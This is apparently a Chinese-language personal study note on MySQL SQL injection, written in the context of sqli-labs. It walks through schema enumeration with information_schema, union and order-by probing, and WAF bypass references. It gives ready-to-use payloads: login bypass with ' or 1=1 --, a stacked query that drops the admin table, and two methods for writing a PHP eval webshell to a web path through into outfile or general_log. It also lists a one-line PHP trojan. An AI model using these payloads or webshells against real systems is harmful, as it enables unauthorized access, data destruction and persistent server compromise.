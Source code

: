 参考 [sql注入过安全狗](https://zhuanlan.zhihu.com/p/68809398)

[sql注入大全博客](https://www.cnblogs.com/miracle77hp/articles/11237843.html)

```
show full columns from teacher
显示所有表字段
```



#### 判断类型

获取了全部数据 从返回的数据 我们立马断定他是数字型注入 而如果是字符型注入 代码里应该是 where id='$id' 就是字符型



#### 获取信息

```text
SESSION_USER(), SYSTEM_USER(), USER(), CURRENT_USER(), CURRENT_USER: 获取当前执行SQL用户，例如返回：root@localhost，root是用户名，localhost是不能远程登录
database(): 获取当前执行SQL的数据库名
version(): 获取当前数据库版本
@@datadir：获取当前数据库存储在计算机上的物理路径
@@version_compile_os：获取当前服务器操作系统版本，例如返回win32
@@hostname：主机名，计算机名
```



mysql中注释符：#   、/**/  、  -- 

information_schema数据库中三个很重要的表：

information_schema.schemata:  该数据表存储了mysql数据库中的所有数据库的库名
information_schema.tables：     该数据表存储了mysql数据库中的所有数据表的表名
information_schema.columns:    该数据表存储了mysql数据库中的所有列的列名
关于这几个表的一些语法：

```
// 通过这条语句可以得到所有的数据库名
select schema_name from information_schema.schemata limit 0,1

// 通过这条语句可以得到所有的数据表名
select table_name from information_schema.tables limit 0,1
// 通过这条语句可以得到指定security数据库中的所有表名
select table_name from information_schema.tables where table_schema='security'limit 0,1

// 通过这条语句可以得到所有的列名
select column_name from information_schema.columns limit 0,1
// 通过这条语句可以得到指定数据库security中的数据表users的所有列名
select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1

//通过这条语句可以得到指定数据表users中指定列password的数据(只能是database()所在的数据库内的数据，因为处于当前数据库下的话不能查询其他数据库内的数据)
select password from users limit 0,1
```



```
mysql中比较常用的一些函数：

version()： 查询数据库的版本          
user()：查询数据库的使用者       
database()：数据库
system_user()：系统用户名
session_user()：连接数据库的用户名
current_user：当前用户名
load_file()：读取本地文件
@@datadir：读取数据库路径
@@basedir：mysql安装路径
@@version_complie_os：查看操作系统
```

ascii(str) : 返回给定字符的ascii值，如果str是空字符串，返回0；如果str是NULL，返回NULL。如 ascii("a")=97

ascii(str) : 返回给定字符的ascii值，如果str是空字符串，返回0；如果str是NULL，返回NULL。如 ascii("a")=97

length(str) : 返回给定字符串的长度，如  length("string")=6

substr(string,start,length) : 对于给定字符串string，从start位开始截取，截取length长度 ,如  substr("chinese",3,2)="in"

substr()、stbstring()、mid()  三个函数的用法、功能均一致

concat(username)：将查询到的username连在一起，默认用逗号分隔

concat(str1,'*',str2)：将字符串str1和str2的数据查询到一起，中间用*连接

group_concat(username) ：将username数据查询在一起，用逗号连接

limit 0,1：查询第1个数        limit  1,1： 查询第2个数             limit  n,1： 查询第n+1个数





#### 写入shell



通过SQL注入漏洞是可以执行写文件操作，当然可以写`WebShell`

利用`loadfile()`，`into outfile`，`into dumpfile`实现读写本地文件

但是使用上面函数的条件是：

1. 数据库允许导入导出（`secure_file_priv`）
2. 当前用户用户文件操作权限（`File_priv`）

```text
SELECT '<?php phpinfo(); ?>' into outfile '网站绝对路径';
```

当`outfile`没权限的时候，可以使用`mysql`写日志来获得`WebShell`

```text
set global general_log='ON';
set global general_log_file='d:/virtualhost/localuser/host9384686/www/upload/dyboy.php';
select '<?php @eval($_POST[1]);?>';#
set global general_log='0';//记得给人家还原
```



#### 笔记

```
mysql的注入


select * from hack
select * from where id =1;
select username from hack where id=1;

exsits()
select*from user where id =1 and exists(select*from hack) 判断有没有
#猜数据库中有没有这个表名字   ——————-第一步（猜表名）
select*from user where id=1 and exists(select username from hack)；
#猜字段     				————————第二部（猜字段）
order by N
select * from hack  order by n；
按照查询的第几个字段排序，mysql中n>真实字段 就会报错
						  ———————---第三步（猜字段个数）


union联合查询
select * from news union select*from news2(必须保证new与new2字段相同)
 
select *from user union select username ,password from hack；
(通过修改后者的字段来查到想要的内容)

select* from hack uonion select 1,2,3 from 123 ；直接显示123
```

```
注释 #与 “-- ” 
另外-- （这里有一个空格，--空格）在SQL内表示注释，但在URL中，如果在最后加上-- ，浏览器在发送请求的时候会把URL末尾的空格舍去，所以我们用--+代替-- ，原因是+在URL被URL编码后会变成空格。
```

```
源码中找字段名
input username
注入工具

```

```
密码绕过   逻辑表达式取真
select * from admin where  username='admin'and  password='password'

(2)' or 1=1 --

select * from admin where  username='' or 1=1 -- 'and  password='password'
(2)	1'or 1=1or 1'

	select *from admin where username='1'or 1=1 or'1'and password=''
	
(3) 'or 1=1;drop table admin --
因为sql语句具有多语句执行的功能 直接就删除了admin表

```

```php
一句话木马
php :<?php @eval($_POST['pass'])?>
```

注入分为两类

数字型注入与字符型注入

```
数字型：select * from table where id=8;
字符型：select * from table where id='8'
```







```
sqli-labs
1.
id=-1' union select 1,2,3 --+
```

![1590024122763](../../../../Vs%20Workstation/note/img/1590024122763.png)




